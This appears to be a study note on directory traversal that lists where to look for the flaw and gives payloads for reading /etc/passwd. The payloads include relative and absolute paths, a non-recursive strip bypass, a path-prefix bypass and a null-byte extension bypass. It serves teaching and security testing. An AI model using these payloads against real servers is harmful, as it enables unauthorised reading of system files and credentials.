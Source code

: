 # Directory Traversal
## Introduction 
Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.


## Where to Find
- spot all the requests that interacts with the files on the server 
- use burp active scan
- try some LFI and RFI (will be discussed later on)

## How to exploit
### File path traversal, simple case
- Determine whether the server is linux on win (make use of responses, use wapalizer extenstion)
- try simple payload for relative path
```
filename=../../../../../../etc/passwd
```
- absolute path 
```
filename=/etc/passwd
```
- so the functionality may be implemented using relative or absolute path 
###  traversal sequences blocked with absolute path bypass
- simply use absolute path 
```
filename=/etc/passwd
```
### traversal sequences stripped non-recursively
- if ../ is sanitized non recursevly 
```
filename=..././..././..././etc/passwd
```
### traversal sequences stripped with superfluous URL-decode
- some times there is a client side validation, so do url encoding, and double it , it may bypass the defense 
### validation of start of path
```
filename=/var/www/images/../../../etc/passwd
```
### validation of file extension with null byte bypass
- what is null byte ? 
	- represent an end of a string 
	- %00 
	- when the server reads it, it will cut any thing after it
```
filename=/etc/passwd%00.png
```